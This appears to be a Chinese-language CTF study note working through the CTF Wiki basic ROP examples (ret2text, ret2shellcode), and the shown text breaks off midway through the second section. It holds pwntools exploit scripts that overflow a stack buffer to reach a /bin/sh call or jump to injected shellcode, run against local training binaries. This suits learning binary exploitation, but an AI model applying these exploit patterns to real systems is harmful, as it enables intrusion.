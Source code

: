 # ctfwiki---基本ROP

## 简介
ROP(Return Oriented Programming)  
其主要思想是在栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。所谓 gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。  

ctfwiki是一个很好的学习网站：https://ctf-wiki.github.io/  
这里把ctfwiki的基本ROP例子做一遍：https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop-zh/  


## ret2text
有栈溢出，但栈不可执行  
有 shell 调用：  
```r
.text:0804863A mov     dword ptr [esp], offset command ; "/bin/sh"
.text:08048641 call    _system         ; Call Pro
```

所以用 ROP，这里其实就是把 main 的返回地址改成 0804863A  

需要找到输入点到返回地址的偏移：  
```r
# 返回地址的位置
FFFFD2EC  F7DECE81  libc_2.27.so:__libc_start_main+F1
# 输入点的位置
FFFFD27C
```

偏移 0x70，然后就是脚本了  
```python
# coding:utf8

from pwn import *

conn = process('./ret2text')

payload = 'a'*0x70 + p32(0x0804863A)    

conn.sendline(payload)
conn.interactive()
```

记得把系统的地址随机化关掉  


## ret2shellcode
buf2 在 bss 段， 在 gdb 下用 vmmap 命令确定 bss 段可执行，所以把 shellcode 写到 buf2，跳过去，就可以了  
```python
# coding:utf8

'''
FFFFD2DC  F7DECE81  libc_2.27.so:__libc_start_main+F1
FFFFD26C
'''

from pwn import *

shellcode = asm(shellcraft.sh())
print(len(shellcode))

conn = process('./ret2shellcode')

# payload = shellcode + 'a'*(0x70-len(shellcode)) + p32(0x0804A080)
# 上面的写法太丑了
```